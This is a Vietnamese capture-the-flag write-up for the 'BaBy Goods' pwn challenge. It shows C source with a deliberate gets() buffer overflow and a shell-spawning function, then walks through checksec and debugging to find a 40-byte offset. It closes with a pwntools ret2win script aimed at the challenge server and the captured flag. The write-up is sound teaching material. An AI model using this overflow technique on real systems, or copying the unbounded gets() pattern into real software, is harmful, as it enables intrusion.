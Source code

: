 # <center>BaBy Goods</center>
- Challenge cho ta 2 file gồm một file thực thi là ```babygoods``` và 1 file code **C** ```babygoods.c```
### Source code
```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char username[0x20];

int menu(char name[0x20]);

int sub_15210123() {
    execve("/bin/sh", 0, 0);
}

int buildpram() {
    char buf[0x10];
    char size[4];
    int num;

    printf("\nChoose the size of the pram (1-5): ");
    fgets(size,4,stdin);
    size[strcspn(size, "\r\n")] = '\0';
    num = atoi(size);
    if (1 > num || 5 < num) {
        printf("\nInvalid size!\n");
        return 0;
    }

    printf("\nYour pram has been created! Give it a name: ");
    //buffer overflow! user can pop shell directly from here
    gets(buf);
    printf("\nNew pram %s of size %s has been created!\n", buf, size);
    return 0;
}

int exitshop() {
    puts("\nThank you for visiting babygoods!\n");
    exit(0);
}

int menu(char name[0x20]) {
    char input[4];
    do {
        printf("\nHello %s!\n", name);
        printf("Welcome to babygoods, where we provide the best custom baby goods!\nWhat would you like to do today?\n");
        printf("1: Build new pram\n");
        printf("2: Exit\n");
        printf("Input: ");
        fgets(input, 4, stdin);
        input[strcspn(input, "\r\n")] = '\0';
        switch (atoi(input))
        {
        case 1:
            buildpram();
            break;
        default:
            printf("\nInvalid input!\n==========\n");
            menu(name);
        }
    } while (atoi(input) != 2);
    exitshop();
}

int main() {
        setbuf(stdin, 0);
        setbuf(stdout, 0);

    printf("Enter your name: ");
    fgets(username,0x20,stdin);
    username[strcspn(username, "\r\n")] = '\0';
    menu(username);
    return 0;
}
```
- Nhìn vào mã nguồn ta thấy lỗi rất rõ ở hàm ```buildpram()``` ở hàm ```gets(buf)``` cho phép nhận đầu vào không giới hạn dẫn đến lỗi ```Buffer Overflow``` cho phép ghi đè vào các bộ đệm lân cận. Xem các biện pháp bảo vệ của chương trình
```shellcode
gef➤  checksec
[+] checksec for '/home/s4ngxg/ctf/grey2024/distribution/babygoods'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```
- ```Canary``` không được bật nên ta có thể khai thác lỗi ```Buffer Overflow```, ta thấy hàm ```sub_15210123()``` gọi shell trên hệ thống. Mục tiêu bây giờ là gì đè địa chỉ của hàm ```sub_15210123()``` vào địa chỉ trả về của hàm ```buildpram()```
- Debug để tìm các địa chỉ trả về của hàm ```buildpram()``` và địa chỉ bắt đầu của hàm ```sub_15210123()```
![image](https://hackmd.io/_uploads/B10akIqf0.png)
- Địa chỉ hàm ```sub_15210123()``` là ```0x401236```
![image](https://hackmd.io/_uploads/B1FybL5G0.png)
- Ta thấy sau khi gọi hàm ```buildpram()``` thì tới lệnh tiếp theo ở địa chỉ ```0x0000000000401404```, đó chính là địa chỉ trả về của hàm ```buildpram()```
- Đặt breakpoint ngay lệnh ```gets()``` và lệnh ```ret``` trong hàm  ```buildpram()``` để tìm địa chỉ trong stack và từ đó tìm được ofset
![image](https://hackmd.io/_uploads/H16o485M0.png)
Địa chỉ của biến ```buf``` trong stack là ```0x00007fffffffdfb0```
- ![image](https://hackmd.io/_uploads/SkH0VUqMC.png)
Địa chỉ của lệnh trả về trong stack là ```0x00007fffffffdfd8```
- Ofset là ```0x00007fffffffdfd8 - 0x00007fffffffdfb0 = 40 byte```

### Script
```python
from pwn import *

sub_address = 0x401236

p = remote('challs.nusgreyhats.org', 32345)

p.sendlineafter('name: ', b'S4nGxG')
p.sendlineafter('Input: ', b'1')
p.sendlineafter('(1-5): ', b'5')

payload = b'A'*40
payload += p64(sub_address)

p.sendlineafter('name: ', payload)

p.interactive()
```
> ### *grey{4s_34sy_4s_t4k1ng_c4ndy_fr4m_4_b4by}*
